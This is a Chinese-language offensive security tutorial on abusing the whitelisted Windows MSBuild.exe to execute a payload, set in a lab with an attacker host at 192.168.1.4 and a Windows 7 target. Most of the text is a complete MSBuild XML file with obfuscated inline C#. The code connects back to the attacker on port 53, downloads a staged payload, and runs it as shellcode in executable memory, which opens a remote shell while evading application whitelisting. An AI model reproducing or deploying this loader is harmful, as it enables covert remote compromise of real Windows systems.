

### MSBuild简介：

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

**说明：**Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

基于白名单MSBuild.exe配置payload：

Windows 7默认位置为：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.3 Windows 7

### 靶机执行：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe Micropoor.xml
```


### 配置攻击机msf：


### 附录：Micropoor.xml
**注：x86 payload**

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

<!‐‐ C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj Micropoor ‐‐>

<Target Name="iJEKHyTEjyCU">

<xUokfh />

</Target>

<UsingTask

TaskName="xUokfh"

TaskFactory="CodeTaskFactory"

AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\\Microsoft.Build.Tasks.v4.0.dll" >

<Task> 

<Code Type="Class" Language="cs">

<![CDATA[

using System; using System.Net; using System.Net.Sockets; using System.Linq; using System.Runtime.InteropServices; using System.Threading; using Microsoft.Build.Framework; using Microsoft.Build.Utilities;

public class xUokfh : Task, ITask {

[DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 ogephG,UInt32 fZZrvQ, UInt32 nDfrBaiPvDyeP, UInt32 LWITkrW);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 qEVoJxknom, UInt32 gZyJBJWYQsnXkWe, UInt32 jyIPELfKQYEVZM,IntPtr adztSHGJiurGO, UInt32 vjSCprCJ, ref UInt32 KbPukprMQXUp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr wVCIQGmqjONiM, UInt32 DFgVrE);

static byte[] VYcZlUehuq(string IJBRrBqhigjGAx, int XBUCexXIrGIEpe) {

IPEndPoint DRHsPzS = new IPEndPoint(IPAddress.Parse(IJBRrBqhigjGAx), XBUCexXIrGIEpe);

Socket zCoDOd = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { zCoDOd.Connect(DRHsPzS); }

catch { return null;}

byte[] OCrGofbbWRVsFEl = new byte[4];

zCoDOd.Receive(OCrGofbbWRVsFEl, 4, 0);

int auQJTjyxYw = BitConverter.ToInt32(OCrGofbbWRVsFEl, 0);

byte[] MlhacMDOKUAfvMX = new byte[auQJTjyxYw + 5];

int GFtbdD = 0;

while (GFtbdD < auQJTjyxYw)

{ GFtbdD += zCoDOd.Receive(MlhacMDOKUAfvMX, GFtbdD + 5, (auQJTjyxYw ‐ GFtbdD) < 4096 ? (auQJTjyxYw ‐ GFtbdD) : 4096, 0);}

byte[] YqBRpsmDUT = BitConverter.GetBytes((int)zCoDOd.Handle);

Array.Copy(YqBRpsmDUT, 0, MlhacMDOKUAfvMX, 1, 4); MlhacMDOKUAfvMX[0] = 0xBF;

return MlhacMDOKUAfvMX;}

static void NkoqFHncrcX(byte[] qLAvbAtan) {

if (qLAvbAtan != null) {

UInt32 jrYMBRkOAnqTqx = VirtualAlloc(0, (UInt32)qLAvbAtan.Length, 0x1000, 0x40);

Marshal.Copy(qLAvbAtan, 0, (IntPtr)(jrYMBRkOAnqTqx), qLAvbAtan.Length);

IntPtr WCUZoviZi = IntPtr.Zero;

UInt32 JhtJOypMKo = 0;

IntPtr UxebOmhhPw = IntPtr.Zero;

WCUZoviZi = CreateThread(0, 0, jrYMBRkOAnqTqx, UxebOmhhPw, 0, ref JhtJOypMKo);

WaitForSingleObject(WCUZoviZi, 0xFFFFFFFF); }} 

public override bool Execute()

{

byte[] uABVbNXmhr = null; uABVbNXmhr = VYcZlUehuq("192.168.1.4", 53);

NkoqFHncrcX(uABVbNXmhr); 

return true; } }

]]>

</Code>

</Task>

</UsingTask>

</Project>
```

>   Micropoor
